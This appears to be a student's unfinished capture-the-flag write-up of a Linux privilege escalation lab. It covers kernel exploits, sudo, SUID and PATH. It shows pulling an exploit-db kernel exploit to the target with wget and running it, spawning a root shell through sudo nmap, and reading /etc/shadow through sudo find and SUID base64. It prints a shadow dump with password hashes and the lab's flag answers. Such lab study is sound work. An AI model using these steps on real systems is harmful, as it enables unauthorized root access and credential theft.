



# 🛠️ Linux Privilege Escalation

## Kernel Exploits
### 1. What is the content of the flag1.txt file?

**Step 1: Enumeration & Identification**
```
$ uname -a
Linux wade7363 3.13.0-24-generic #46-Ubuntu SMP Thu Apr 10 19:11:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
```
**Step 2:**

Need to know exactly what we are dealing with. Search for kernel version and find the code to exploit: 
```https://www.exploit-db.com/exploits/372```

Then run on attacker machine: ``` python3 -m http.server 8000```
On target Machine: ``` wget http://IP:8000/exploit.c```

**Step 3: Compile and Execute**
```
# Compile the code
gcc exploit.c -o exploit

# Give it execution permissions
chmod +x exploit

# Run it
./exploit
```

**Step 4: Find the Flag**

```
# Find the flag file
find / -name flag1.txt 2>/dev/null

# Read the content
cat /path/to/flag1.txt
```
---

## Privilege Escaltion: Sudo

**Step 1: Fix working directory**

* Couldn't access /home/karen: ```echo $HOME```
* ```cd /tmp```

**Step 2: Answer questions**

1. What is the content of the flag2.txt file?

   ```sudo find / -name flag2.txt -exec cat {} \; 2>/dev/null```
    * ```/``` = start from the root directory
    * ```-exec``` = tell ```find``` every file you  find, run a command
    * ```{}``` = Placeholder for found file.
    * ```2>/dev/null``` = redirect discard ouput (Error are hidden)
    ```
    $ sudo find / -name flag2.txt -exec cat {} \; 2>/dev/null
    THM-402028394
    ```

2. How would you use Nmap to spawn a root shell if your user had sudo rights on nmap?

    ```sudo nmap --interactive```

3. What is the hash of frank's password?

    ```sudo find /etc/shadow -exec cat {} \;```
    ```
    $ sudo apache2 -f /etc/shadow
    [sudo] password for karen: 
    sudo: apache2: command not found
    $ sudo find /etc/shadow -exec cat {} \;
    root:*:18561:0:99999:7:::
    daemon:*:18561:0:99999:7:::
    bin:*:18561:0:99999:7:::
    sys:*:18561:0:99999:7:::
    sync:*:18561:0:99999:7:::
    games:*:18561:0:99999:7:::
    man:*:18561:0:99999:7:::
    lp:*:18561:0:99999:7:::
    mail:*:18561:0:99999:7:::
    news:*:18561:0:99999:7:::
    uucp:*:18561:0:99999:7:::
    proxy:*:18561:0:99999:7:::
    www-data:*:18561:0:99999:7:::
    backup:*:18561:0:99999:7:::
    list:*:18561:0:99999:7:::
    irc:*:18561:0:99999:7:::
    gnats:*:18561:0:99999:7:::
    nobody:*:18561:0:99999:7:::
    systemd-network:*:18561:0:99999:7:::
    systemd-resolve:*:18561:0:99999:7:::
    systemd-timesync:*:18561:0:99999:7:::
    messagebus:*:18561:0:99999:7:::
    syslog:*:18561:0:99999:7:::
    _apt:*:18561:0:99999:7:::
    tss:*:18561:0:99999:7:::
    uuidd:*:18561:0:99999:7:::
    tcpdump:*:18561:0:99999:7:::
    sshd:*:18561:0:99999:7:::
    landscape:*:18561:0:99999:7:::
    pollinate:*:18561:0:99999:7:::
    ec2-instance-connect:!:18561:0:99999:7:::
    systemd-coredump:!!:18796::::::
    ubuntu:!:18796:0:99999:7:::
    lxd:!:18796::::::
    karen:$6$QHTxjZ77ZcxU54ov$DCV2wd1mG5wJoTB.cXJoXtLVDZe1Ec1jbQFv3ICAYbnMqdhJzIEi3H4qyyKO7T75h4hHQWuWWzBH7brjZiSaX0:18796:0:99999:7:::
    frank:$6$2.sUUDsOLIpXKxcr$eImtgFExyr2ls4jsghdD3DHLHHP9X50Iv.jNmwo/BJpphrPRJWjelWEz2HH.joV14aDEwW1c3CahzB1uaqeLR1:18796:0:99999:7:::
    ```

---

## SUID

1. Which user shares the name of a great comic book writer?

    Run the command and found the user. ```cat /etc/passwd``` 

2. What is the password of user2?
    Run Command = ```./usr/bin/base64 /etc/shadow | base64 --decode```
    
    
3. What is the content of the flag3.txt file?
   ```
    $ find / -name flag3.txt 2>/dev/null
    /home/ubuntu/flag3.txt
    $ cat /home/ubuntu/flag3.txt
    cat: /home/ubuntu/flag3.txt: Permission denied
    $ base64 /home/ubuntu/flag3.txt | base64 --decode
    THM-3847834
    ```

---


## PATH

What is the content of the flag6.txt file?



---